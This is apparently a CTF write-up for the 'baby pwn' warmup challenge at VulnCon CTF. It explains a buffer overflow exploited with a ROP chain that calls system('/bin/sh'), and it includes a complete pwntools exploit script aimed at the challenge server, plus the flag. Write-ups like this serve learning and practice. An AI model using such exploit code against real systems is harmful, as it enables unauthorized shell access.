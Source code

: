 ## VulnCon CTF: baby pwn [pwn]

![](nice.png)
#### I only played for a little bit during the duration of the ctf since I still had to rush some of my pre-finals requirements :pepe_sad: and what's even sadder is that I hadn't solved the heap challs and the blind format string pwn. Well, I'll just read the writeups and practice them to learn more! Also, I placed 69th despite only solving pwn challs, which is pretty nice.

![](warmup_desc.png)
#### This challenge was just a warm up for the pwn category. We had a buffer overflow and a function that calls system. Directly jumping to this function didn't grant me a shell, so what I did was to search for a /bin/sh string in memory, pop it into the rdi register and directly call system. 

```python
from pwn import *

#p = process('./w4rmup')
#gdb.attach(p.pid, gdbscript = 'break *main + 153')
p = remote("35.232.11.215", 49153)
binary = ELF('./w4rmup', checksec = False)

overflowed = binary.symbols['overflowed']
exploit = cyclic(24)
exploit += p64(0x40126b) #: pop rdi; ret
exploit += p64(0x402008) #: /bin/sh string in memory
exploit += p64(overflowed + 11) #: direct call to system
p.sendline(exploit)
p.interactive()

#: vulncon{y0u_4re_all_s3t_for_pwn}
```

![](warmup_shell.png)